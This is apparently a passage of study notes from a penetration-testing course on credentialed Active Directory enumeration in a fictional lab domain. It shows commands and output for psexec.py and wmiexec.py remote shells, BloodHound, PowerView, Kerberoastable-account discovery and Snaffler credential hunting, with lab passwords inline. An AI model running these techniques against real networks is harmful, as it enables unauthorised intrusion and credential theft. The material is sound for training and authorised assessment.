logon_count: 0x0000001d
padding1[0..7]...
logon_hrs[0..21]...
enumdomusers
When you searched for information using the queryuser command against an RID, RPC returned the user information. This wasn't hard since you already knew the RID for the user. If you wished to enumerate all users to gather the RIDs for more than just one, you would use the following:
rpcclient $> enumdomusers
user:[administrator] rid:[0x1f4]
user:[guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[lab_adm] rid:[0x3e9]
user:[htb-student] rid:[0x457]
user:[avazquez] rid:[0x458]
user:[pfalcon] rid:[0x459]
user:[fanthony] rid:[0x45a]
user:[wdillard] rid:[0x45b]
user:[lbradford] rid:[0x45c]
user:[sgage] rid:[0x45d]
user:[asanchez] rid:[0x45e]
user:[dbranch] rid:[0x45f]
user:[ccruz] rid:[0x460]
user:[njohnson] rid:[0x461]
user:[mholliday] rid:[0x462]
<SNIP>
Using it in this manner will print out all domain users by name and RID. Your enumeration can go into great detail utilizing rpcclient. You could even start performing actions such as editing users and groups or adding your own into the domain.
Impacket Toolkit
Impacket is a versatile toolkit that provides you with many different ways to enumerate, interact, and exploit Windows protocols and find the information you need using Pyhton. The tool is actively maintained and has many contributors, especially when new attack techniques arise.
psexec.py
One of the most useful tools in the Impacket suite is psexec.py. It's a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.
To connect to a host with psexec.py, you need credentials for a user with local administrator privileges.
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125
Once you execute the psexec module, it drops you into the system32 directory on the target host.
wmiexec.py
... utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user you connected with. This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern AV and EDR systems.
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5
Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: "A new process has been created", they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation.
Windapsearch
... is another handy Python script you can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.
d41y@htb[/htb]$ windapsearch.py -h
usage: windapsearch.py [-h] [-d DOMAIN] [--dc-ip DC_IP] [-u USER]
[-p PASSWORD] [--functionality] [-G] [-U] [-C]
[-m GROUP_NAME] [--da] [--admin-objects] [--user-spns]
[--unconstrained-users] [--unconstrained-computers]
[--gpos] [-s SEARCH_TERM] [-l DN]
[--custom CUSTOM_FILTER] [-r] [--attrs ATTRS] [--full]
[-o output_dir]
Script to perform Windows domain enumeration through LDAP queries to a Domain
Controller
optional arguments:
-h, --help show this help message and exit
Domain Options:
-d DOMAIN, --domain DOMAIN
The FQDN of the domain (e.g. 'lab.example.com'). Only
needed if DC-IP not provided
--dc-ip DC_IP The IP address of a domain controller
Bind Options:
Specify bind account. If not specified, anonymous bind will be attempted
-u USER, --user USER The full username with domain to bind with (e.g.
'ropnop@lab.example.com' or 'LAB\ropnop'
-p PASSWORD, --password PASSWORD
Password to use. If not specified, will be prompted
for
Enumeration Options:
Data to enumerate from LDAP
--functionality Enumerate Domain Functionality level. Possible through
anonymous bind
-G, --groups Enumerate all AD Groups
-U, --users Enumerate all AD Users
-PU, --privileged-users
Enumerate All privileged AD Users. Performs recursive
lookups for nested members.
-C, --computers Enumerate all AD Computers
<SNIP>
You have several options with Windapsearch to perform standard enumeration and more detailed enumeration. The --da option and the -PU options. The -PU option is interesting because it will perform a recursive search for users with nested group membership.
Domain Admins
d41y@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da
[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+] Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+] ...success! Binded as:
[+] u:INLANEFREIGHT\forend
[+] Attempting to enumerate all Domain Admins
[+] Using DN: CN=Domain Admins,CN=Users.CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+] Found 28 Domain Admins:
cn: Administrator
userPrincipalName: administrator@inlanefreight.local
cn: lab_adm
cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local
<SNIP>
From the results in the shell above, you can see that it enumerated 28 users from the Domain Admin group. Take note of a few users you have already seen before and may even have a hash or cleartext password like wley, svc_qualys, and lab_adm.
Privileged Users
To identify more potential users, you can run the tool with -PU flag and check for users with elevated privileges that may have gone unnoticed. This is a great check for reporting since it will most likely inform the customer of users with excess privileges from nested group membership.
d41y@htb[/htb]$ python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU
[+] Using Domain Controller at: 172.16.5.5
[+] Getting defaultNamingContext from Root DSE
[+] Found: DC=INLANEFREIGHT,DC=LOCAL
[+] Attempting bind
[+] ...success! Binded as:
[+] u:INLANEFREIGHT\forend
[+] Attempting to enumerate all AD privileged users
[+] Using DN: CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+] Found 28 nested users for group Domain Admins:
cn: Administrator
userPrincipalName: administrator@inlanefreight.local
cn: lab_adm
cn: Angela Dunn
userPrincipalName: adunn@inlanefreight.local
cn: Matthew Morgan
userPrincipalName: mmorgan@inlanefreight.local
cn: Dorothy Click
userPrincipalName: dclick@inlanefreight.local
<SNIP>
[+] Using DN: CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
[+] Found 3 nested users for group Enterprise Admins:
cn: Administrator
userPrincipalName: administrator@inlanefreight.local
cn: lab_adm
cn: Sharepoint Admin
userPrincipalName: sp-admin@INLANEFREIGHT.LOCAL
<SNIP>
You'll notice that it performed mutations against common elevated group names in different languages. This output gives an example of the dangers of nested group membership, and this will become more evident when you work with BloodHound graphics to visualize it.
Bloodhound.py
Once you have domain credentials, you can run the Bloodhound.py BloodHound ingestor from your Linux attack host. The tool uses graph theory to visually represent relationships and uncover attack paths that would have been difficult, or even impossible to detect with other tools. The tool consists of two parts: the SharpHound collector written in C# for use on Windows systems, and the BloodHound GUI tool which allows you to upload collected data in the form of JSON files. Once uploaded, you can run various pre-built queries or write custom queries using Cypher language. The tool collects data from AD such as users, groups, computers, group membership, GPOs, ACLs, domain trusts, local admin access, user sessions, computer and user properties, RDP access, WinRM access, etc.
Running bloodhound-python -h from your Linux attack host will show you the options available.
d41y@htb[/htb]$ bloodhound-python -h
usage: bloodhound-python [-h] [-c COLLECTIONMETHOD] [-u USERNAME]
[-p PASSWORD] [-k] [--hashes HASHES] [-ns NAMESERVER]
[--dns-tcp] [--dns-timeout DNS_TIMEOUT] [-d DOMAIN]
[-dc HOST] [-gc HOST] [-w WORKERS] [-v]
[--disable-pooling] [--disable-autogc] [--zip]
Python based ingestor for BloodHound
For help or reporting issues, visit https://github.com/Fox-IT/BloodHound.py
optional arguments:
-h, --help show this help message and exit
-c COLLECTIONMETHOD, --collectionmethod COLLECTIONMETHOD
Which information to collect. Supported: Group,
LocalAdmin, Session, Trusts, Default (all previous),
DCOnly (no computer connections), DCOM, RDP,PSRemote,
LoggedOn, ObjectProps, ACL, All (all except LoggedOn).
You can specify more than one by separating them with
a comma. (default: Default)
-u USERNAME, --username USERNAME
Username. Format: username[@domain]; If the domain is
unspecified, the current domain is used.
-p PASSWORD, --password PASSWORD
Password
<SNIP>
As you can see the tool accepts various collection methods with the -c or --collectionmethod flag. You can retrieve specific data such as user sessions, users and groups, object properties, ACLS, or select all to gather as much data as possible.
Executing
d41y@htb[/htb]$ sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all
INFO: Found AD domain: inlanefreight.local
INFO: Connecting to LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 1 domains
INFO: Found 2 domains in the forest
INFO: Found 564 computers
INFO: Connecting to LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 2951 users
INFO: Connecting to GC LDAP server: ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
INFO: Found 183 groups
INFO: Found 2 trusts
INFO: Starting computer enumeration with 10 workers
<SNIP>
The command above executed Bloodhound.py with the user forend. You specified your nameserver as the DC with the -ns flag and the domain with the -d flag. The -c all flag told the tool to run all checks. Once the script finishes, you will see the output files in the current working directory in the format of <date_object.json>.
d41y@htb[/htb]$ ls
20220307163102_computers.json 20220307163102_domains.json 20220307163102_groups.json 20220307163102_users.json
Uploading the Zip File
You could then type sudo neo4j start to start the neo4j service, firing up the databaseeeee you'll load the data into and also run Cypher queries against.
Next, you can type bloodhound from your Linux attack host when logged in and upload the data.
Once all of the above is done, you should have the BloodHound GUI tool loaded with a blank slate. Now you need to upload the data. You can either upload each JSON file one by one or zip them first and upload the Zip file.
Now that the data is loaded, you can use the Analysis tab to run queries against the database. These queries can be custom and specific to what you decide using custom Cypher queries.
Credentialed Enum - from Windows
ActiveDirectory PowerShell Module
... is a group of PowerShell cmdlets for administering an AD environment from the command line. It consists of 147 different cmdlets (now probably more).
Before you can utilize it, you have to make sure it is imported first. The Get-Module cmdlet, which is part of the Microsoft.PowerShell.Core module, will list all available modules, their version, and potential commands for use. This is a great way to see if anything like Git or custom administrator scripts are installed. If the module is not loaded, run Import-Module ActiveDirectory to load it for use.
PS C:\htb> Get-Module
ModuleType Version Name ExportedCommands
---------- ------- ---- ----------------
Manifest 3.1.0.0 Microsoft.PowerShell.Utility {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script 2.0.0 PSReadline {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...
You'll see that the ActiveDirectory module is not yet imported.
PS C:\htb> Import-Module ActiveDirectory
PS C:\htb> Get-Module
ModuleType Version Name ExportedCommands
---------- ------- ---- ----------------
Manifest 1.0.1.0 ActiveDirectory {Add-ADCentralAccessPolicyMember, Add-ADComputerServiceAcc...
Manifest 3.1.0.0 Microsoft.PowerShell.Utility {Add-Member, Add-Type, Clear-Variable, Compare-Object...}
Script 2.0.0 PSReadline {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...
Domain Info
Now that your modules are loaded you can begin enumerating some basic information about the domain with the Get-ADDomain cmdlet.
PS C:\htb> Get-ADDomain
AllowedDNSSuffixes : {}
ChildDomains : {LOGISTICS.INLANEFREIGHT.LOCAL}
ComputersContainer : CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
DeletedObjectsContainer : CN=Deleted Objects,DC=INLANEFREIGHT,DC=LOCAL
DistinguishedName : DC=INLANEFREIGHT,DC=LOCAL
DNSRoot : INLANEFREIGHT.LOCAL
DomainControllersContainer : OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL
DomainMode : Windows2016Domain
DomainSID : S-1-5-21-3842939050-3880317879-2865463114
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=INLANEFREIGHT,DC=LOCAL
Forest : INLANEFREIGHT.LOCAL
InfrastructureMaster : ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
LastLogonReplicationInterval :
LinkedGroupPolicyObjects : {cn={DDBB8574-E94E-4525-8C9D-ABABE31223D0},cn=policies,cn=system,DC=INLANEFREIGHT,
DC=LOCAL, CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=INLAN
EFREIGHT,DC=LOCAL}
LostAndFoundContainer : CN=LostAndFound,DC=INLANEFREIGHT,DC=LOCAL
ManagedBy :
Name : INLANEFREIGHT
NetBIOSName : INLANEFREIGHT
ObjectClass : domainDNS
ObjectGUID : 71e4ecd1-a9f6-4f55-8a0b-e8c398fb547a
ParentDomain :
PDCEmulator : ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
PublicKeyRequiredPasswordRolling : True
QuotasContainer : CN=NTDS Quotas,DC=INLANEFREIGHT,DC=LOCAL
ReadOnlyReplicaDirectoryServers : {}
ReplicaDirectoryServers : {ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL}
RIDMaster : ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
SubordinateReferences : {DC=LOGISTICS,DC=INLANEFREIGHT,DC=LOCAL,
DC=ForestDnsZones,DC=INLANEFREIGHT,DC=LOCAL,
DC=DomainDnsZones,DC=INLANEFREIGHT,DC=LOCAL,
CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL}
SystemsContainer : CN=System,DC=INLANEFREIGHT,DC=LOCAL
UsersContainer : CN=Users,DC=INLANEFREIGHT,DC=LOCAL
This will print out helpful information like the domain SID, domain functionality level, any child domains, and more.
Get-ADUser
Next, you'll use the Get-ADUser cmdlet. You will be filtering for accounts with the SerivcePrincipalName property populated. This will get you a listing of accounts that may be susceptible to a Kerberoasting attack.
PS C:\htb> Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
DistinguishedName : CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled : True
GivenName : Sharepoint
Name : adfs
ObjectClass : user
ObjectGUID : 49b53bea-4bc4-4a68-b694-b806d9809e95
SamAccountName : adfs
ServicePrincipalName : {adfsconnect/azure01.inlanefreight.local}
SID : S-1-5-21-3842939050-3880317879-2865463114-5244
Surname : Admin
UserPrincipalName :
DistinguishedName : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
Enabled : True
GivenName : Jessica
Name : BACKUPAGENT
ObjectClass : user
ObjectGUID : 2ec53e98-3a64-4706-be23-1d824ff61bed
SamAccountName : backupagent
ServicePrincipalName : {backupjob/veam001.inlanefreight.local}
SID : S-1-5-21-3842939050-3880317879-2865463114-5220
Surname : Systemmailbox 8Cc370d3-822A-4Ab8-A926-Bb94bd0641a9
UserPrincipalName :
<SNIP>
Checking for Trust Relationships
Another interesting check you can run utilizing the ActiveDirectory module, would be to verify domain trust relationships using the Get-ADtrust cmdlet.
PS C:\htb> Get-ADTrust -Filter *
Direction : BiDirectional
DisallowTransivity : False
DistinguishedName : CN=LOGISTICS.INLANEFREIGHT.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ForestTransitive : False
IntraForest : True
IsTreeParent : False
IsTreeRoot : False
Name : LOGISTICS.INLANEFREIGHT.LOCAL
ObjectClass : trustedDomain
ObjectGUID : f48a1169-2e58-42c1-ba32-a6ccb10057ec
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source : DC=INLANEFREIGHT,DC=LOCAL
Target : LOGISTICS.INLANEFREIGHT.LOCAL
TGTDelegation : False
TrustAttributes : 32
TrustedPolicy :
TrustingPolicy :
TrustType : Uplevel
UplevelOnly : False
UsesAESKeys : False
UsesRC4Encryption : False
Direction : BiDirectional
DisallowTransivity : False
DistinguishedName : CN=FREIGHTLOGISTICS.LOCAL,CN=System,DC=INLANEFREIGHT,DC=LOCAL
ForestTransitive : True
IntraForest : False
IsTreeParent : False
IsTreeRoot : False
Name : FREIGHTLOGISTICS.LOCAL
ObjectClass : trustedDomain
ObjectGUID : 1597717f-89b7-49b8-9cd9-0801d52475ca
SelectiveAuthentication : False
SIDFilteringForestAware : False
SIDFilteringQuarantined : False
Source : DC=INLANEFREIGHT,DC=LOCAL
Target : FREIGHTLOGISTICS.LOCAL
TGTDelegation : False
TrustAttributes : 8
TrustedPolicy :
TrustingPolicy :
TrustType : Uplevel
UplevelOnly : False
UsesAESKeys : False
UsesRC4Encryption : False
This cmdlet will print out any trust relationship the domain has. You can determine if they are trusts within your forest or with domains in other forests, the type of trust, the direction of the trust, and the name of the domain the relationship is with. This will be useful later on when looking to take advantage of child-to-parent trust relationships and attacking across forest trusts.
Group Enum
Next, you can gather AD group information using the Get-ADGroup cmdlet.
PS C:\htb> Get-ADGroup -Filter * | select name
name
----
Administrators
Users
Guests
Print Operators
Backup Operators
Replicator
Remote Desktop Users
Network Configuration Operators
Performance Monitor Users
Performance Log Users
Distributed COM Users
IIS_IUSRS
Cryptographic Operators
Event Log Readers
Certificate Service DCOM Access
RDS Remote Access Servers
RDS Endpoint Servers
RDS Management Servers
Hyper-V Administrators
Access Control Assistance Operators
Remote Management Users
Storage Replica Administrators
Domain Computers
Domain Controllers
Schema Admins
Enterprise Admins
Cert Publishers
Domain Admins
<SNIP>
You can take the results and feed interesting names back into the cmdlet to get more detailed information about a particular group like so:
PS C:\htb> Get-ADGroup -Identity "Backup Operators"
DistinguishedName : CN=Backup Operators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL
GroupCategory : Security
GroupScope : DomainLocal
Name : Backup Operators
ObjectClass : group
ObjectGUID : 6276d85d-9c39-4b7c-8449-cad37e8abc38
SamAccountName : Backup Operators
SID : S-1-5-32-551
Group Membership
Now that you know more about the group, get a member listing using the Get-ADGroupMember cmdlet.
PS C:\htb> Get-ADGroupMember -Identity "Backup Operators"
distinguishedName : CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
name : BACKUPAGENT
objectClass : user
objectGUID : 2ec53e98-3a64-4706-be23-1d824ff61bed
SamAccountName : backupagent
SID : S-1-5-21-3842939050-3880317879-2865463114-5220
You can see that one account, backupagent, belongs to this group. It is worth noting this down becaue if you can take over this service account through some attack, you could use its membership in the Backup Operators group to take over the domain. You can perform this process for the other groups to fully understand the domain membership setup.
Utilizing the ActiveDirectory module on a host can be a stealthier way of performing actions than dropping a tool onto a host or loading it into memory and attempting to use it. This way, your actions could potentially blend in more.
PowerView
... is a tool written in PowerShell to help you gain situational awareness within an AD environment. Much like BloodHound, it provides a way to identify where users are logged in on a network, enumerate domain information such as users, computers, groups, ACLs, trusts, hunt for file shares and passwords, perform Kerberoasting, and more. It is a highly versatile tool that can provide you with great insight into the security posture of your client's domain. It requires more manual work to determine misconfigurations and relationships within the domain than BloodHound but, when used right, can help you to identify subtle misconfigs.
For commands, read this.
Domain User Information
The Get-DomainUser function will provide you with information on all users or specific users you specify.
PS C:\htb> Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol
name : Matthew Morgan
samaccountname : mmorgan
description :
memberof : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
whencreated : 10/27/2021 5:37:06 PM
pwdlastset : 11/18/2021 10:02:57 AM
lastlogontimestamp : 2/27/2022 6:34:25 PM
accountexpires : NEVER
admincount : 1
userprincipalname : mmorgan@inlanefreight.local
serviceprincipalname :
mail :
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, DONT_REQ_PREAUTH
Recursive Group Membership
Now enumerate some domain group information. You can use the Get-DomainGroupMember function to retrieve group-specific information. Adding the -Recurse switch tells PowerView that if it finds any groups that are part of the target group to list out the members of those groups. For example, the output below shows that the Secadmins group is part of the Domain Admins group through nested group membership. In this case, you will be able to view all of the members of that group who inherit Domain Admin rights via their group membership.
PS C:\htb> Get-DomainGroupMember -Identity "Domain Admins" -Recurse
GroupDomain : INLANEFREIGHT.LOCAL
GroupName : Domain Admins
GroupDistinguishedName : CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
MemberDomain : INLANEFREIGHT.LOCAL
MemberName : svc_qualys
MemberDistinguishedName : CN=svc_qualys,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberObjectClass : user
MemberSID : S-1-5-21-3842939050-3880317879-2865463114-5613
GroupDomain : INLANEFREIGHT.LOCAL
GroupName : Domain Admins
GroupDistinguishedName : CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
MemberDomain : INLANEFREIGHT.LOCAL
MemberName : sp-admin
MemberDistinguishedName : CN=Sharepoint Admin,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberObjectClass : user
MemberSID : S-1-5-21-3842939050-3880317879-2865463114-5228
GroupDomain : INLANEFREIGHT.LOCAL
GroupName : Secadmins
GroupDistinguishedName : CN=Secadmins,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberDomain : INLANEFREIGHT.LOCAL
MemberName : spong1990
MemberDistinguishedName : CN=Maggie
Jablonski,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
MemberObjectClass : user
MemberSID : S-1-5-21-3842939050-3880317879-2865463114-1965
<SNIP>
Above you performed a recursive look at the Domain Admins group to list its members. Now you know who to target for potential elevation of privileges.
Trust Enumeration
PS C:\htb> Get-DomainTrustMapping
SourceName : INLANEFREIGHT.LOCAL
TargetName : LOGISTICS.INLANEFREIGHT.LOCAL
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection : Bidirectional
WhenCreated : 11/1/2021 6:20:22 PM
WhenChanged : 2/26/2022 11:55:55 PM
SourceName : INLANEFREIGHT.LOCAL
TargetName : FREIGHTLOGISTICS.LOCAL
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection : Bidirectional
WhenCreated : 11/1/2021 8:07:09 PM
WhenChanged : 2/27/2022 12:02:39 AM
SourceName : LOGISTICS.INLANEFREIGHT.LOCAL
TargetName : INLANEFREIGHT.LOCAL
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : WITHIN_FOREST
TrustDirection : Bidirectional
WhenCreated : 11/1/2021 6:20:22 PM
WhenChanged : 2/26/2022 11:55:55 PM
Testing for Local Admin Access
You can use the Test-AdminAccess function to test for local admin access on either the current machine or a remote one.
PS C:\htb> Test-AdminAccess -ComputerName ACADEMY-EA-MS01
ComputerName IsAdmin
------------ -------
ACADEMY-EA-MS01 True
Above, you determined that the user you are currently using is an administrator on the host ACADEMY-EA-MS01. You can perform the same function for each host to see where you have administrative access.
Finding Users with SPN set
Now you can check for users with the SPN attribute set, which indicates that the account may be subjected to a Kerberoasting attack.
PS C:\htb> Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName
serviceprincipalname samaccountname
-------------------- --------------
adfsconnect/azure01.inlanefreight.local adfs
backupjob/veam001.inlanefreight.local backupagent
d0wngrade/kerberoast.inlanefreight.local d0wngrade
kadmin/changepw krbtgt
MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433 sqldev
MSSQLSvc/SPSJDB.inlanefreight.local:1433 sqlprod
MSSQLSvc/SQL-CL01-01inlanefreight.local:49351 sqlqa
sts/inlanefreight.local solarwindsmonitor
testspn/kerberoast.inlanefreight.local testspn
testspn2/kerberoast.inlanefreight.local testspn2
SharpView
Many of the same functions supported by PowerView can be used with SharpView. You can type a method name with -Help to get an argument list.
PS C:\htb> .\SharpView.exe Get-DomainUser -Help
Get_DomainUser -Identity <String[]> -DistinguishedName <String[]> -SamAccountName <String[]> -Name <String[]> -MemberDistinguishedName <String[]> -MemberName <String[]> -SPN <Boolean> -AdminCount <Boolean> -AllowDelegation <Boolean> -DisallowDelegation <Boolean> -TrustedToAuth <Boolean> -PreauthNotRequired <Boolean> -KerberosPreauthNotRequired <Boolean> -NoPreauth <Boolean> -Domain <String> -LDAPFilter <String> -Filter <String> -Properties <String[]> -SearchBase <String> -ADSPath <String> -Server <String> -DomainController <String> -SearchScope <SearchScope> -ResultPageSize <Int32> -ServerTimeLimit <Nullable`1> -SecurityMasks <Nullable`1> -Tombstone <Boolean> -FindOne <Boolean> -ReturnOne <Boolean> -Credential <NetworkCredential> -Raw <Boolean> -UACFilter <UACEnum>
Here you can use SharpView to enumerate information about a specific user, such as the user forend, which you control.
PS C:\htb> .\SharpView.exe Get-DomainUser -Identity forend
[Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
[Get-DomainUser] filter string: (&(samAccountType=805306368)(|(samAccountName=forend)))
objectsid : {S-1-5-21-3842939050-3880317879-2865463114-5614}
samaccounttype : USER_OBJECT
objectguid : 53264142-082a-4cb8-8714-8158b4974f3b
useraccountcontrol : NORMAL_ACCOUNT
accountexpires : 12/31/1600 4:00:00 PM
lastlogon : 4/18/2022 1:01:21 PM
lastlogontimestamp : 4/9/2022 1:33:21 PM
pwdlastset : 2/28/2022 12:03:45 PM
lastlogoff : 12/31/1600 4:00:00 PM
badPasswordTime : 4/5/2022 7:09:07 AM
name : forend
distinguishedname : CN=forend,OU=IT Admins,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
whencreated : 2/28/2022 8:03:45 PM
whenchanged : 4/9/2022 8:33:21 PM
samaccountname : forend
memberof : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share G Drive,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL}
cn : {forend}
objectclass : {top, person, organizationalPerson, user}
badpwdcount : 0
countrycode : 0
usnchanged : 3259288
logoncount : 26618
primarygroupid : 513
objectcategory : CN=Person,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL
dscorepropagationdata : {3/24/2022 3:58:07 PM, 3/24/2022 3:57:44 PM, 3/24/2022 3:52:58 PM, 3/24/2022 3:49:31 PM, 7/14/1601 10:36:49 PM}
usncreated : 3054181
instancetype : 4
codepage : 0
Shares
... allow users on a domain to quickly access information relevant to their daily roles and share content with their organization. When set up correctly, domain shares will require a user to be domain joined and required to authenticate when accessing the system. Permissions will also be in place to ensure users can only access and see what is necessary for their daily role. Overly permissive shares can potentially cause accidental disclosure of sensitive information, especially those containing medical, legal, personnel, HR, data, etc. In an attack, gaining control over a standard domain user who can access shares such as the IT/infrastructure shares could lead to the disclosure of sensitive data such as configs or authentication files like SSH keys or passwords stored insecurely. You want to identify any issues like these to ensure the customer is not exposing any data to users who do not need to access it for their daily jobs and that they are meeting any legal/regulatory requirements they are subject to. You can use PowerView to hunt for shares and then help you dig through them or use various manual commands to hunt for common strings such as files with pass in the name. This can be a tedious process, and you may miss things, especially in large environments.
Snaffler
... is a tool that can help you acquire credentials or other sensitive data in an AD environment. Snaffler works by obtaining a list of hosts within the domain and then enumerating those hosts for shares and readable dirs. Once that is done, it iterates through any directories readable by your user and hunts for files that could serve to better your position within the assessment. Snaffler requires that it be run from a domain-joined host or in a domain-user context.
Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data
The -s tells it to print results to the console for you, the -d specifies the domain to search within, and the -o tells Snaffler to write results to a logfile. The -v option is the verbosity level. Typically data is best as it only displays results to the screen, so it's easier to begin looking through the tool runs. Snaffler can produce a considerable amount of data, so you should typically output to file and let it run and then come back to it later. It can also be helpful to provide Snaffler raw output to clients as supplemental data during a pentest as it can help them zero in on high-value shares that would be locked down first.
PS C:\htb> .\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data
.::::::.:::. :::. :::. .-:::::'.-:::::'::: .,:::::: :::::::..
;;;` ``;;;;, `;;; ;;`;; ;;;'''' ;;;'''' ;;; ;;;;'''' ;;;;``;;;;
'[==/[[[[, [[[[[. '[[ ,[[ '[[, [[[,,== [[[,,== [[[ [[cccc [[[,/[[['
''' $ $$$ 'Y$c$$c$$$cc$$$c`$$$'`` `$$$'`` $$' $$"" $$$$$$c
88b dP 888 Y88 888 888,888 888 o88oo,.__888oo,__ 888b '88bo,
'YMmMY' MMM YM YMM ''` 'MM, 'MM, ''''YUMMM''''YUMMMMMMM 'W'
by l0ss and Sh3r4 - github.com/SnaffCon/Snaffler
2022-03-31 12:16:54 -07:00 [Share] {Black}(\\ACADEMY-EA-MS01.INLANEFREIGHT.LOCAL\ADMIN$)
2022-03-31 12:16:54 -07:00 [Share] {Black}(\\ACADEMY-EA-MS01.INLANEFREIGHT.LOCAL\C$)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-MX01.INLANEFREIGHT.LOCAL\address)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\User Shares)
2022-03-31 12:16:54 -07:00 [Share] {Green}(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\ZZZ_archive)
2022-03-31 12:17:18 -07:00 [Share] {Green}(\\ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL\CertEnroll)
2022-03-31 12:17:19 -07:00 [File] {Black}<KeepExtExactBlack|R|^\.kdb$|289B|3/31/2022 12:09:22 PM>(\\ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL\Department Shares\IT\Infosec\GroupBackup.kdb) .kdb
